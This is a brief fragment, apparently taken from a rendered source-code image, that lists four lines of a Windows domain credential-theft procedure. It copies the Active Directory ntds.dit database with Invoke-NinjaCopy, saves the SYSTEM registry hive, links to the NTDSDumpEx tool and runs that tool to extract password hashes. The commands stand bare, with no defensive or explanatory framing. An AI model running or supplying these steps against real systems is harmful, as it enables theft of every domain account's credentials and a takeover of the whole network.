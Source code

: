 	>Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "C:\Windows\Temp\1.dit"
	>reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.hive
	https://github.com/zcgonvh/NTDSDumpEx
	>NTDSDumpEx.exe -d ntds.dit -s SYSTEM.hive